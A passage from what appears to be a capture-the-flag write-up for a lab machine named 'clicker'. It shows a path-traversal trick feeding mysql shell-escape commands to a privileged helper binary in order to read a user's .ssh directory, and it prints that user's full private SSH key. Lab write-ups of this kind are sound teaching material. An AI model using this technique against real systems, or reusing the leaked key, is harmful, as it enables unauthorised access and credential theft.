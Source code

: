 Nice we got the user flag. But our goal is still to become the user. So let's look through his home directory first.

If we take look inside the `.ssh` folder we find a private key:
```
www-data@clicker:/opt/manage$ echo "\! ls -al /home/jack/.ssh" > /tmp/exploit
www-data@clicker:/opt/manage$ ./execute_query 5 ../../../tmp/exploit         
mysql: [Warning] Using a password on the command line interface can be insecure.
total 16
drwx------ 2 jack jack 4096 Sep  5 19:19 .
drwxr-x--- 7 jack jack 4096 Dec 11 19:19 ..
-rw-r--r-- 1 jack jack  566 Feb 25  2023 authorized_keys
-rw------- 1 jack jack 2602 Feb 25  2023 id_rsa
www-data@clicker:/opt/manage$ echo "\! cat /home/jack/.ssh/id_rsa" > /tmp/exploit            
www-data@clicker:/opt/manage$ ./execute_query 5 ../../../tmp/exploit              
mysql: [Warning] Using a password on the command line interface can be insecure.
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
www-data@clicker:/opt/manage$
```
Perfect!

